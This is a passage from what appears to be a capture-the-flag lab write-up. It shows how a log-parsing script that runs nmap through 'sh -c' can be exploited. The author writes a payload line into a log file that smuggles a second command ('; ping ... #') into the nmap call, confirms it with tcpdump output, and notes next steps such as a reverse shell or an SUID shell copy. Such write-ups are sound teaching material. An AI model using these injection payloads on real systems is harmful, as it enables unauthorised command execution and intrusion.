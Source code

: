 
So it’s clear that script is running.

### Command Injection

#### POC

The script is also injectable. Each line of the log is going to go into to select the third and beyond objects () when separated by space (). Then it will to remove duplicates. This isolates the IP:`cut``-f3-``-d' '``sort -u`

    kid@scriptkiddie:~/logs$ echo "[2021-05-28 12:37:32.655374] 10.10.14.15" | cut -d' ' -f3-
    10.10.14.15
    

Then for each IP, it will run:

    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
    

So if I can put more than just an IP into the file where the IP should be, I can inject commands. For example, I’ll use a payload like

    kid@scriptkiddie:~/logs$ echo "x x x 127.0.0.1; ping -c 1 10.10.14.15 #" | cut -d' ' -f3- 
    x 127.0.0.1; ping -c 1 10.10.14.15 #
    

The first two are just cut out, so that payload starts after that. The next is the name of the file in . Then I put a 127.0.0.1 so it would have something to scan. Then there’s a to start a new command, which I’ll start with . Then a to comment out the rest of the line. That would make:`x``x``/recon``;``ping``#`

    sh -c "nmap --top-ports 10 -oN recon/x 127.0.0.1; ping -c 1 10.10.14.15 #.nmap x 127.0.0.1; ping -c 1 10.10.14.15 # 2>&1 >/dev/null" &
    

With syntax highlighting on the part inside :`sh -c ""`

    nmap --top-ports 10 -oN recon/x 127.0.0.1; ping -c 1 10.10.14.15 #.nmap x 127.0.0.1; ping -c 1 10.10.14.15 # 2>&1 >/dev/null
    

It’s clearly going to and then .`nmap``ping`

I’ll start and put that into the log:`tcpdump`

    kid@scriptkiddie:~/logs$ echo "x x x 127.0.0.1; ping -c 1 10.10.14.15 #"  > hackers
    

Immediately there’s ICMP at :`tcpdump`

    oxdf@parrot$ sudo tcpdump -i tun0 icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    12:50:17.736260 IP 10.10.10.226 > 10.10.14.15: ICMP echo request, id 1, seq 1, length 64
    12:50:17.736296 IP 10.10.14.15 > 10.10.10.226: ICMP echo reply, id 1, seq 1, length 64
    

#### Shell

With command injection verified, I’ll update the payload from a to a reverse shell. I could also do things like writes a SSH key or make a SUID copy of .`ping``sh`
